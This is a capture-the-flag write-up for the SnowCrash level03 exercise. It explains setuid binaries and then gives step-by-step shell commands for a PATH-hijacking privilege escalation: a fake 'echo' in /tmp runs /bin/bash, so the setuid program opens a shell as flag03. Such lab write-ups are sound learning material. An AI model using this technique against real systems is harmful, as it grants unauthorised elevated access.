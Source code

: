 # Level03

### Research

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

### Solution

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:
  1. Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
  2. Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
  3. Change path
      ``` bash
      export PATH=/tmp:$PATH
      ```
      We added tmp directory at the start of the path.



Do command `env` and see path went from: <br/>
`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games`<br/>
to <br/>
`PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games`


```bash
level03@SnowCrash:~$ ./level03
```

You are now flag3 because you "opened" a new shell with the rights of flag03.

You can now launch `getflag`.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

